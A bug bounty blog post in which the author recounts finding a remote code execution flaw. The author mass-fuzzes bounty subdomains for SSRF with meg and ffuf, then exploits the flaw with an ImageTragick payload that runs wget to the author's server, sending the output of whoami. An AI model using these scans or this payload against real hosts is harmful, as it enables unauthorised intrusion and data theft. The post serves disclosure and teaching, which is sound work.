 ```yaml
---
title: "My first RCE: a tale of good ideas and good friends"
layout: post
categories:
  - hacking
tags:
  - hacking
---
```


## Summary 
Through the help of two friends, some bash tricks, the use of Tomnomnom's tool `meg`, and a service vulnerable to [ImageTragick](https://imagetragick.com/), I found my first RCE (and my first critical!) within the first two months of bug bounty hunting.

## Good friends and good ideas
I have always found value in surrounding myself with people I can learn from. In my professional work life, that's choosing to be around the most talented team member when possible. 

When I got into bug bounty, I immediately followed people like [@nahamsec](https://twitter.com/NahamSec), [@zseano](https://twitter.com/zseano), and [@stök](https://twitter.com/stokfredrik). They are very talented and get a lot of questions so I knew I needed to find other sources of help as well. 

Ben (@nahamsec) had started a discord. HackerOne also has a discord. I met [@healthyoutlet](https://twitter.com/healthyoutlet) on one of those discords and we've been friends ever since. We're constantly bouncing ideas off each other. One day I told him it would be awesome to use [@tomnomnom](https://twitter.com/TomNomNom)'s `meg` tool to hit ALL public bounty subdomains with different high-signal payloads and then grepping for signs that it was vulnerable. Like most hackers, he's a doer so he immediately pulled down the github repo of all public programs (https://github.com/arkadiyt/bounty-targets-data), found the domains for the wildcards with [findomain](https://github.com/Edu4rdSHL/findomain), and sent me the list. 

<iframe src="https://giphy.com/embed/oYtVHSxngR3lC" width="480" height="347" frameBorder="0" class="giphy-embed" allowFullScreen></iframe>

It was around 300,000 subdomains and >600,000 hosts because nearly all of them were running on both port 80 and 443. 

We tried lots of different payloads:
* CRLF via %0d%0a
* Path traversal
* Known sensitive paths
* etc.

The idea that resulted in this write-up (and therefore, my first critical!) was parameter fuzzing. I had the idea to search for SSRF via stuffing a bunch of parametes into a request like:
```
https://example.com?url=myserver.com/url&file=myserver.com/file...
```

So I was telling [@michael1026](https://twitter.com/Michael1026H1) about my idea and he suggested a big list of parameters. Since Discord keeps good history, I dug it up for this post:
```
content, counturl, dest_url, document, domain, download, file, http, https, image, image_src, imageurl, include, media, Page, pageurl, page_url, picture, referrer, req, request, source, src, uri, url
```

I am pretty frugal, and I hadn't made any money from bug bounty at this point, so I didn't have Burp Pro and collaborator. So here was the steps I took:
1. Start a simple server on my VPS with 

`python3 -m http.server <random port number>`
2. Run the following command. I used return code 777 because I didn't really want to save off any repsponses.  
```
meg -c 100 -d 100 -s 777 "/?url=http://{my-server-ip}&file=http://{my-server-ip}&path=..." all_hosts.txt
```
3. Wait for a ping on my server.
4. ???
5. Profit!

Oh wait... maybe you already spotted the issue. I received a few pings on my simple http server, and I got really excited. But then I realized that I had no idea what parameter or host was vulnerabe.

## What I did to find the host and param name
I used the linux `split` command to cut the hosts into 100 files and wrote a `for` loop to iterate over them. I watched the simple server logs to see when I got a hit. Then I broke that flie into 100 files and did it again until I figured out the host. I did something similarly stupid to figure out the param name. It took a few hours when it shouldn't have, but it ended up being worth it :)

## What I should have done
1. I should have used [ffuf](https://github.com/ffuf/ffuf). It's an awesome and flexible fuzzer. Check it out if you haven't used it. 
2. Also, I should have added the parameter name to the path. Then I would immediately know which parameter was vulnerable.
3. It would have been nice to include the domain in the path of the request so I would know which domain was vulnerable. This has to change PER request, which isn't trivial. I could have used some bash magic and curl. But nowadays, with the new pitchfork mode in ffuf, I could have requested the domain in the endpoint path pretty easily. 

Putting it all together, I should have done: 
```
ffuf -c -u HOST/?url=http://{my-server-ip}/DOMAIN/url&file=http://{my-server-ip}/DOMAIN/file -w hosts.txt:HOST -w domains.txt:DOMAIN -mode pitchfork -v 
```
Hosts.txt would contain hosts including the protocol. Domains would be the hosts WITHOUT the protocal lining up line-per-line with the hosts. You could easily generate this with @tomnomnom's tool `unfurl` via a command like this: 
`cat hosts.txt | unfurl -format %d | tee -a domains.txt`

## Wrapping up

The vulnerable host had the word image in the subdomain. So I hosted an image on my server and did 
`curl -v https://vulnerablehost.com/url=http://{my-server-ip}/image.jpg` 
and sure enough, the vulnerable host grabbed the image from my server and then delivered it to me. I was telling [@healthyoutlet](https://twitter.com/healthyoutlet) everything I was doing and asking for advice. He told me to check the downloaded image size. sure enough, it was completely different than the original. I opened up an image compare tool and there were lots of pixel differences. It was definitely being processed. So then [@healthyoutlet](https://twitter.com/healthyoutlet) mentions that it might be using [ImageTragick](https://imagetragick.com/) and to look into it. I quickly googled it, found the PoC's on github and modified it so that the code being executed was 
```
push graphic-context
viewbox 0 0 640 480 
fill 'url(https://127.0.0.0/oops.jpg"|wget http://{my-server-ip}/$(whoami)'
pop graphic-context
```
After a few seconds, I got a hit on my simple server at `/Serving`. Not root, but it still proved RCE by the `wget` request being performed AND showing the username of the user running the web server.

<iframe src="https://giphy.com/embed/8JVjMCr3OIAhO" width="480" height="178" frameBorder="0" class="giphy-embed" allowFullScreen></iframe>

So, with imagetragick, an attacker can replace everything to the right of the pipe with whatever code they want. I thought about getting a shell and seeing if I could pivot or escalate, but RCE is already a critical, and I decided to play it on the safe side. 

## Take-aways

* Friends and collaboration are immensely valuable, especially when you're first starting. I wouldn't have found this without my friends helping.
* Creativity and huge data sets can lead to interesting findings.
* Don't assume old CVEs aren't still around. ImageTragick is a 2016 CVE and this was found on a well-known public bug bounty program.

I hope you enjoyed the write-up. I've got a few more from the last few months that might be interesting to write up as well. Let me know if you'd like to see those. 
